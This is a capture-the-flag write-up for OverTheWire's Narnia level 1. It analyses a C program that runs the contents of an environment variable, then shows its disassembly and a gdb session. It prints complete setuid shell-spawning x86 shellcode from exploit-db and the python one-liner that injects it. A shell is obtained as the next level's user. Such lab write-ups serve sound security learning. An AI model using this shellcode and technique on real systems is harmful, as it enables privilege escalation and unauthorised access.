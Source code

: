 #Narnia1

narnia.labs.overthewire.org

**Username:** narnia1
**Password:** see [narnia0](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria0)
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Again, let's go ahead and run the program and see what it does.
>
>```
# ./narnia1  
Give me something to execute at the env-variable EGG  
>```
> Ok, it looks like we are going to be messing with environment variables.
>
> Let's go ahead and take a peek at the source:
>
>```C
>/*
>    This program is free software; you can redistribute it and/or modify
>    it under the terms of the GNU General Public License as published by
>    the Free Software Foundation; either version 2 of the License, or
>    (at your option) any later version.
>
>    This program is distributed in the hope that it will be useful,
>    but WITHOUT ANY WARRANTY; without even the implied warranty of
>    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
>    GNU General Public License for more details.
>
>    You should have received a copy of the GNU General Public License
>    along with this program; if not, write to the Free Software
>    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
>*/
>#include <stdio.h>
>
>int main(){
>	int (*ret)();
>
>	if(getenv("EGG")==NULL){    
>		printf("Give me something to execute at the env-variable EGG\n");
>		exit(1);
>	}
>
>	printf("Trying to execute EGG!\n");
>	ret = getenv("EGG");
>	ret();
>
>	return 0;
>}
>```
>
> This one looks straight forward, but at the same time, I don't quite know how ```getenv("EGG");``` is going to work.  What it looks like to someone who isn't the best ```C``` programmer is that we are going to read in the value of environment variable ```EGG``` and execute whatever is in there.  Let's try a basic command and see what it does.
>
>```
># export EGG=ls
># echo $EGG
>ls
># ./narnia1 
>Trying to execute EGG!
>Segmentation fault
>```
>
> Ok, clearly there is more going on here.  Let's bust out our dissassembler and see what's going on at the ```getenv("EGG");``` line.
>
>```asm
>             main:
>0804847d         push       ebp                                                 ; XREF=_start+23
>0804847e         mov        ebp, esp
>08048480         and        esp, 0xfffffff0
>08048483         sub        esp, 0x20
>08048486         mov        dword [ss:esp], 0x8048570                           ; argument "name" for method j_getenv
>0804848d         call       j_getenv
>08048492         test       eax, eax
>08048494         jne        0x80484ae
>
>08048496         mov        dword [ss:esp], 0x8048574                           ; "Give me something to execute at the env-variable EGG", argument "s" for method j_puts
>0804849d         call       j_puts
>080484a2         mov        dword [ss:esp], 0x1                                 ; argument "status" for method j_exit
>080484a9         call       j_exit
>
>080484ae         mov        dword [ss:esp], 0x80485a9                           ; "Trying to execute EGG!", argument "s" for method j_puts, XREF=main+23
>080484b5         call       j_puts
>080484ba         mov        dword [ss:esp], 0x8048570                           ; argument "name" for method j_getenv
>080484c1         call       j_getenv
>080484c6         mov        dword [ss:esp+0x1c], eax
>080484ca         mov        eax, dword [ss:esp+0x1c]
>080484ce         call       eax
>080484d0         mov        eax, 0x0
>080484d5         leave      
>080484d6         ret
>```
>
> Well, we can see the call to ```j_getenv``` at ```0x080484c1``` and there appears to be call directly after that at ```0x080484ce```.  Let's setup gdb and break at that point.
>
>```asm
># gdb narnia1
>(gdb) display/a $eax
>(gdb) break *0x080484ce
>Breakpoint 1 at 0x80484ce
>(gdb) run
>Starting program: /root/narnia1 
>warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>Trying to execute EGG!
>
>Breakpoint 1, 0x080484ce in main ()
>1: /a $eax = 0xffffd806
>(gdb) x/100x $eax
>0xffffd806:	0x5500736c	0x3d524553	0x746f6f72	0x5f534c00
>0xffffd816:	0x4f4c4f43	0x723d5352	0x3a303d73	0x303d6964
>0xffffd826:	0x34333b31	0x3d6e6c3a	0x333b3130	0x686d3a36
>0xffffd836:	0x3a30303d	0x343d6970	0x33333b30	0x3d6f733a
>0xffffd846:	0x333b3130	0x6f643a35	0x3b31303d	0x623a3533
>0xffffd856:	0x30343d64	0x3b33333b	0x633a3130	0x30343d64
>0xffffd866:	0x3b33333b	0x6f3a3130	0x30343d72	0x3b31333b
>0xffffd876:	0x733a3130	0x37333d75	0x3a31343b	0x333d6773
>0xffffd886:	0x33343b30	0x3d61633a	0x343b3033	0x77743a31
>0xffffd896:	0x3b30333d	0x6f3a3234	0x34333d77	0x3a32343b
>0xffffd8a6:	0x333d7473	0x34343b37	0x3d78653a	0x333b3130
>0xffffd8b6:	0x2e2a3a32	0x3d726174	0x333b3130	0x2e2a3a31
>0xffffd8c6:	0x3d7a6774	0x333b3130	0x2e2a3a31	0x3d6a7261
>0xffffd8d6:	0x333b3130	0x2e2a3a31	0x3d7a6174	0x333b3130
>0xffffd8e6:	0x2e2a3a31	0x3d687a6c	0x333b3130	0x2e2a3a31
>0xffffd8f6:	0x616d7a6c	0x3b31303d	0x2a3a3133	0x7a6c742e
>0xffffd906:	0x3b31303d	0x2a3a3133	0x7a78742e	0x3b31303d
>0xffffd916:	0x2a3a3133	0x70697a2e	0x3b31303d	0x2a3a3133
>0xffffd926:	0x303d7a2e	0x31333b31	0x5a2e2a3a	0x3b31303d
>0xffffd936:	0x2a3a3133	0x3d7a642e	0x333b3130	0x2e2a3a31
>0xffffd946:	0x303d7a67	0x31333b31	0x6c2e2a3a	0x31303d7a
>0xffffd956:	0x3a31333b	0x7a782e2a	0x3b31303d	0x2a3a3133
>0xffffd966:	0x327a622e	0x3b31303d	0x2a3a3133	0x3d7a622e
>0xffffd976:	0x333b3130	0x2e2a3a31	0x3d7a6274	0x333b3130
>0xffffd986:	0x2e2a3a31	0x327a6274	0x3b31303d	0x2a3a3133
>```
>
> Ah, so it looks like our ```ls``` is at ```0xffffd808``` and ```ffffd809```.  At those two addresses we see the values ```0x73``` and ```0x6c``` respectively which translate back to ```s``` and ```l```.  So it looks like if we load valid shellcode into the ```EGG``` environment variable it should be executed as the ```call``` will basically be pointed to the shellcode itself. I'll just use some shellcode that I got out of exploit-db.
>
>```
># cat /usr/share/exploitdb/platforms/lin_x86/shellcode/13333.txt
>-------------------[ASM]----------------------
>
>global _start
>section .text
>_start:
>;setuid(0)
>xor ebx,ebx
>lea eax,[ebx+17h]
>cdq
>int 80h
>;execve("/bin/sh",0,0)
>xor ecx,ecx
>push ecx
>push 0x68732f6e
>push 0x69622f2f
>lea eax,[ecx+0Bh]
>mov ebx,esp
>int 80h
>
>-------------------[/ASM]----------------------
>
>-------------------[C]----------------------
>
>#include <stdio.h>
>
>const char shellcode[]= "\x31\xdb"
>            "\x8d\x43\x17"
>            "\x99"
>            "\xcd\x80"
>            "\x31\xc9"
>            "\x51"
>            "\x68\x6e\x2f\x73\x68"
>            "\x68\x2f\x2f\x62\x69"
>            "\x8d\x41\x0b"
>            "\x89\xe3"
>            "\xcd\x80";
>
>int main()
>{
>    printf <http://www.opengroup.org/onlinepubs/009695399/functions/printf.html>("\nSMALLEST SETUID & EXECVE GNU/LINUX x86 STABLE SHELLCODE"
>            "WITHOUT NULLS THAT SPAWNS A SHELL"
>            "\n\nCoded by Chema Garcia (aka sch3m4)"
>            "\n\t + sch3m4@opensec.es"
>            "\n\t + http://opensec.es"
>            "\n\n[+] Date: 29/11/2008"
>            "\n[+] Thanks to: vlan7"
>            "\n\n[+] Shellcode Size: %d bytes\n\n",
>            sizeof(shellcode)-1);
>
>    (*(void (*)()) shellcode)();
>
>    return 0;
>}
>
>-------------------[C]---------------------- 
>
># milw0rm.com [2008-11-13]
>```
>
> Now for the delivery.  We can't just type out the shellcode into the environment variable, so like narnia0 we'll turn to python.  To do this we will just nest the command so that it will execute and print the appropriate values into the environment variable.
>
>```
># export EGG=$(python -c 'print "\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
># echo $EGG
>1ۍC�̀1�Qhn/shh//bi�A
>                    ��̀
>```
>
> That looks about right, let's move to the server and run it.
>
>```
>narnia1@melinda:/narnia$ export EGG=$(python -c 'print "\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
>narnia1@melinda:/narnia$ ./narnia1
>Trying to execute EGG!
>$ whoami
>narnia2
>$ cat /etc/narnia_pass/narnia2
>**********
>$ 
>```
>
> On to narnia2.
